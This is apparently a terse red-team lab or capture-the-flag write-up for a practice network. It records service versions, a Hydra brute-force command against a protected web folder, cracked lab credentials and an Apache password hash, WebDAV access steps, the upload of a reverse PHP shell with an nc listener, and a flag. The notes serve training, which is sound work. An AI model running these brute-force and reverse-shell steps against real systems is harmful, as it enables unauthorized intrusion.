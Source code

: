 # Project-2

Red Team
pstone IP : 192.168.1.105

Network :
Ubuntu
22 OpenSSH 7.6p1 4ubuntu0.3
80 Apache 2.4.29 Ubuntu

192.168.1.105/company_folders/secret_folder
---

hydra -l ashton -P rockyou.txt -s 80 -f -vV 192.168.1.105 http-get
/company_folders/secret_folder
Ashton :: leopoldo 

Connect to corp server
1. open folder on the left hand bar
2. click "Other Locations"
3. type "dav://172.16.84.205/webdav/"
4. use ryan and his pass (brute force)
5. upload reverse php script

ryan :: linux4u

ryan:$apr1$fsU/VibG$HznoQs6XTF7VauEHtktNt.

nc -lvnp 1234
click on reverse php file

flag: b1ng0w@5h1sn@m0
